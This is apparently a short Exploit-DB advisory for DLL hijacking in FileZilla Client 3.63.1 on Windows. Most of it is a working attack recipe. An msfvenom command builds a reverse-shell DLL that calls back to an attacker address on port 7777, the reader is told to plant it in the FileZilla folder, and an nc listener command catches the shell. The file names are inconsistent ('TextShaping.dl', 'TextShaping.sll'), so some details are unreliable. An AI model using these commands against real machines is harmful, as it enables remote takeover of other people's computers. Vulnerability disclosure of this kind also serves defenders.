 # FileZilla Client 3.63.1 - 'TextShaping.dl' DLL Hijacking

https://www.exploit-db.com/exploits/51267

```
#---------------------------------------------------------
# Title: FileZilla Client 3.63.1 - 'TextShaping.dl' DLL Hijacking
# Date: 2023-02-14
# Author: Bilal Qureshi
# Vendor: https://filezilla-project.org/
# Version: 3.63.1
# Tested on: Windows 10 Pro 64-bit (10.0, Build 19044)
#---------------------------------------------------------
```

## Description:
FileZilla is a free and open-source, cross-platform FTP application, consisting of FileZilla Client and FileZilla Server. Clients are available for Windows, Linux, and macOS. Both server and client support FTP and FTPS, while the client can in addition connect to SFTP servers.

DLL Library named TextShaping.dll is not present at the FileZilla folder, this file can be loaded with the app.
Make malicious .dll file via msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=7777 -f dll -o TextShaping.sll
```

place at the destination folder

start listener via nc

```
nc -lvp 7777
```

Local Folder

```
C:\PRogram Files\FileZilla FTP Client>
C:\PRogram Files\FileZilla FTP Client>
```
